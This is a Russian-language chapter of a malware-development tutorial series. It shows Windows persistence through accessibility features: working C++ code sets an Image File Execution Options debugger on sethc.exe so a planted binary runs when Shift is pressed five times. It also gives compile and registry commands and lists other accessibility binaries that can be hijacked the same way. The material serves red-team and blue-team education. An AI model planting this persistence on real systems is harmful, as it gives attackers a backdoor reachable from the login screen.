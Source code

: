 \newpage
\subsection{78. Разработка вредоносного ПО: закрепление (persistence) - часть 12. Функции доступности. Простой пример на C++.}

﷽

![pers](./images/72/2022-09-30_17-48.png){width="80%"}    

Этот пост является результатом моего собственного исследования ещё одного метода персистентности вредоносного ПО на уровне администратора: через функции доступности Windows.    

В одном из [предыдущих](https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html) постов я писал о персистентности через Image File Execution Options. В одном из примеров PoC мы просто создавали отладчик для процесса-жертвы в этом ключе реестра:

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`

После этого единственное, что требовалось, — разместить вредоносное приложение в `System32`.    

### практический пример. sethc.exe

Сегодня я просто заменю наш целевой процесс на `sethc.exe`. Но что такое `sethc.exe`? Этот исполняемый файл отвечает за залипающие клавиши. Нажатие клавиши `Shift` `5` раз включает залипающие клавиши:    

![pers](./images/72/2022-09-30_17-26.png){width="80%"}    

Вместо легитимного `sethc.exe` будет запущен поддельный `sethc.exe`, который, как обычно, для простоты просто вызывает messagebox "meow". Исходный код довольно похож (`pers.cpp`):     

```cpp
/*
pers.cpp
windows persistence via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\sethc.exe";

  // evil app
  const char* exe = "C:\\Windows\\System32\\hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\sethc.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

окно сообщения Meow-meow:    

```cpp
/*
hack.cpp
evil app for windows persistence
via Accessibility Features
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/30/malware-pers-12.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

### демонстрация

Давайте посмотрим, как это работает на практике. Сначала проверим ключи реестра:        

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\
Image File Execution Options" /s
```

![pers](./images/72/2022-09-30_17-32.png){width="80%"}    

Затем, компилируем наш `pers.cpp`:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/72/2022-09-30_17-40.png){width="80%"}    

Запустим и снова проверим реестр:    

> **Для замены системного бинарного файла Windows требуются права администратора**    

```powershell
.\pers.exe
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
Execution Options\sethc.exe" /s
```

![pers](./images/72/2022-09-30_17-44.png){width="80%"}    

Наконец, нажмем `Shift` `5` раз:     

![pers](./images/72/2022-09-30_17-46.png){width="80%"}    

Посмотрим на свойства `hack.exe`:     

![pers](./images/72/2022-09-30_17-47.png){width="80%"}    

![pers](./images/72/2022-09-30_17-47_1.png){width="80%"}    

Отлично! =^..^=    

После завершения эксперимента, для очистки, выполните:     

```powershell
Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image 
File Execution Options\sethc.exe" -Force -Verbose
```

![pers](./images/72/2022-10-01_03-39.png){width="80%"}    

### заключение

Функции доступности Windows включают набор утилит, доступных с экрана входа в систему (например, залипающие клавиши). Некоторые из этих функций и их соответствующие триггеры:

**1. Диспетчер специальных возможностей**     
- `C:\Windows\System32\Utilman.exe`     
- Триггер: `Windows + U`      

**2. Экранная клавиатура**     
- `C:\Windows\System32\osk.exe`      
- Триггер: клик по экранной клавиатуре     

**3. Экранная лупа**   
- `C:\Windows\System32\Magnify.exe`     
- Триггер: `Windows + =`        

**4. Экранный диктор**       
- `C:\Windows\System32\Narrator.exe`    
- Триггер: `Windows + Enter`    

**5. Переключение экрана**     
- `C:\Windows\System32\DisplaySwitch.exe`    
- Триггер: `Windows + P`    

Эти функции Windows стали широко известны после того, как группы APT использовали их для получения бэкдора на целевых компьютерах. Например, [APT3](https://attack.mitre.org/groups/G0022/), [APT29](https://attack.mitre.org/groups/G0016/) и [APT41](https://attack.mitre.org/groups/G0096/) использовали залипающие клавиши.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит инструмент в арсенал красных команд.    

[MITRE ATT&CK. Event Triggered Execution: Accessibility Features](https://attack.mitre.org/techniques/T1546/008/)    
[APT3](https://attack.mitre.org/groups/G0022/)      
[APT29](https://attack.mitre.org/groups/G0016/)     
[APT41](https://attack.mitre.org/groups/G0096/)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-09-30-malware-pers-12)      
